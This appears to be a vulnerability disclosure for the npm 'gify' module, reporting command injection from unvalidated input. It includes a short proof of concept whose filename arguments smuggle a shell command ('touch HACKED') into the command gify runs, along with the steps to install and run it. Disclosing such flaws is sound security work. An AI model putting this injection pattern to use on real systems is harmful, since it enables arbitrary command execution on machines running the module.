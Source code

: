 # :bug: Description

The `gify` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var gify = require("gify");
gify("out.mp4\"`'; touch HACKED; #", 'out.gif\';touch HACKED; #');;
```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i gify # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created

